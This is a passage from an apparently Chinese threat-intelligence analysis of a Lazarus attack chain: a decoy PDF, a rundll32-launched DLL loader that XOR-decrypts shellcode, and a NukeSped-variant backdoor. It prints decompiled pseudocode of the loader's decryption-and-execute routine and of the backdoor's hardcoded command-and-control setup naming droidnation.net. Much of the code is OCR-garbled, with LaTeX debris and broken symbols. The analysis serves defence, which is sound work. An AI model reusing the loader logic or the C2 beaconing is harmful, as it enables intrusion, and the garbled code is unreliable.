 Powershell进程执行了指令后，先后打开诱饵PDF文件以及调用rundll32.exe以指定导出函数和命令行执行落地在%temp%目录下的DLL文件。  

![](https://cdn-mineru.openxlab.org.cn/extract/b5227c20-eb7c-4a7e-9056-4a7c0c592478/c8c25aa934a1907539faadc98c472d8e627dd695c12881555fa0a41902b87a04.jpg)  
图 3：释放的PDF推广信息  

落地%temp%目录下的DLL文件实则为loader程序，loader程序正常运行的话从指定导出函数执行,并通过命令行获取密文数据的文件名将其文件数据读取到内存中，随后使用特定key进行异或运算解密得到第一阶段的Shellcode运行。  

while (v11 );   
result $=$ (LPWSTR \*)sub_1800070D4((_int64)Buffer，（_int64)L"rb");// 读取密文文件数据   
$\vee12=$ result;   
if (result) ((void (_fastcall \*)(LPWSTR \*, _QWORD, int64))sub_180008D34)(result, 0i64, 2i64); $\vee13=$ (int)sub_180009230((_int64)v12); ((void (_fastcall $^*$ )(LPWSTR \*，_QWORD, _QWORD))sub_180008D34)(v12, 0i64, 0i64); $\vee14=$ VirtualAlloc(0i64, v13, 0x3000u, 0x40u); sub_180008A64((int)v14, 1, v13,(_int64)v12); sub_1800087A0(v12); v20[0] $=$ 0x3020100; v20[1] $=$ 0x7060504; v20[2] $=$ 0xB0A0908; V20[3] $=\mathsf{0}\times\mathsf{F}\theta\mathsf{E}\theta\mathsf{D}\theta\mathsf{C}$ if（ $v13~>~\theta$ ） //对密文数据进行解密 { $\mathsf{v17}=\mathsf{v14}$ LODWORD(v15) $=9$ do { $\vee16=*_{\cdot}$ ((unsigned _int8 \*)v20 $^+$ ((int)v15 - 4) % 16); LOBYTE(v16) $=*$ ((_BYTE \*)v20 $^+$ (int)v15 % 16)^ \*((_BYTE \*)v20 $^+$ ((int)v15 + 4)% 16)^v16; v18 =((int)v15 - 9) % 16; \*v17 ^=v16; $\yen15=$ (unsigned int)(v15 + 1); $+\bf{\Psi}\Psi17$ ${}^{*}((\_{-}\tt B Y T E~}^{*})\vee2\theta~+~\vee18)~=~\vee16.$ --V13; } while （v13 ); ((void (_fastcall \*)(_int64, int64, _BYTE $^*$ ))v14)(v16，v15，v17);//执行解密出的shellcode no+unn /lDlCTD \*\IacalEnanI.E\.  

### 3.攻击组件分析  

Lazarus组织使用的NukeSped家族后门历史悠久，其使用历史可追溯到2015年前。发展至今衍生出多个版本其后门功能也五花八门，因此次事件中Shellcode解密出来的后门程序中使用的特殊字符、代码结构、代码习惯上都与NukeSped家族后门存在相似度，所以推测是NukeSped家族后门的某变种版本。  

一阶段中解密出的Shellcode其主要功能是将Shellcode中打乱编码的后门程序数据进行还原并装载运行。  

![](https://cdn-mineru.openxlab.org.cn/extract/b5227c20-eb7c-4a7e-9056-4a7c0c592478/67e998fa3ccc2fd804a48d2cd1c7bfc5d5722e501573e07ef307fc7ea4dd3eda.jpg)  
图6：编码打乱的PE数据  

由于是从多段Shellcode中解密数据进行装载和经典NukeSped后门不同它显得更加“简洁”，后门程序所需使用的敏感字符信息以及敏感API信息都未做“掩饰”处理。  

后门的C&C地址以及运行过程中使用的字段信息都以硬编码的形式存储。  

memset(szServerName, 0, 0x84ui64);   
dword_14001c9D0 $\c=\c1$   
strcpy(szServerName, "droidnation.net");   
strcpy(szObjectName, "/nation.php");   
$\begin{array}{r l r}{\nabla\bot}&{{}=}&{\bar{\Theta},}\end{array}$   
$\begin{array}{r l}{\Psi^{2}}&{{}=}\end{array}$ time64(0i64);   
TickCount $=$ GetTickCount();   
srand( $\downarrow2+$ TickCount);   
$\downarrow4=$ rand() $\%9+2.$   
$\begin{array}{r l r}{\ V^{\sum}}&{{}=}&{3\tilde{\Theta}}\end{array}$ - v4;   
$\downarrow6=$ (rand() %(1<< v4))<<(30-v4);   
dword_140010940 $=$ v6(rand()%(1<<v5));// 获得随机数   
while ( 1 )   
1 while ( (unsigned int)sub_1400049D0() ) f if ( (unsigned int) $^{++}$ v1 > 6 ) v1 = 0;  

在正式发送上线包之前程序获取当前进程的PID充当上线包tuid字段值，并获取一个随机数使用自定义编码进行异或运算后转成base64字符充当上线包payload字段值。  

LuLairre(v),   
memset(v13, 0, 0x104ui64);   
sub_140004E00(v13, "%u", (unsigned int)dword_14001c940);   
memset(Destination, 0, 0x58ui64);   
memset(v8, 0, 0x58ui64);   
memset(v10, 0, 0x58ui64);   
strcpy_s(Destination, 0x40ui64, "tuid");   
\*(_QwORD \*)&Destination[64] $=113$   
$v3=$ -1i64;   
do   
++v3;   
while （v13[v3] );   
\*(_DWORD \*)&Destination $[72]=\vee3$   